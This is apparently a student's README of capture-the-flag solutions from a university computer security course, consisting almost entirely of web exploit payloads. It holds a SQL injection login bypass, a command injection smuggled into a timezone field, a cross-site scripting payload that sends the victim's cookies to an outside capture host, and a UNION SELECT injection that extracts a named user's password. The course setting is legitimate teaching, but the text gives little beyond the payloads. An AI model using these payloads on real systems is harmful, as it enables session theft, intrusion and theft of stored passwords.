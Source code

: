 # WEB
### Flags captured Computer Security Course held by Prof. Barenghi @ PoliMi
#### (Time-Based Blind SQL Injection Attack And QrCode SqlInjection are available in ipynb format)

<br>

## First Exploit - Mission 1: 
```sql
dasda' oR '1'='1;--
```

## Second exploit - Mission 2:
```bash
"Europe/Rome" && flag && echo < 'emily'
```

## Third exploit - Mission 3: Central Lyrics
```url
<script>fetch("https://en5tc1p4vx7hf.x.pipedream.net/"%2Bdocument.cookie)</script>
```
## Sixth exploit - Mission 6: Do ut des
```url

https://web6.chall.necst.it/menu.php?choice=' UNION SELECT NULL,password,3 FROM users WHERE username ='Ramon' --
```
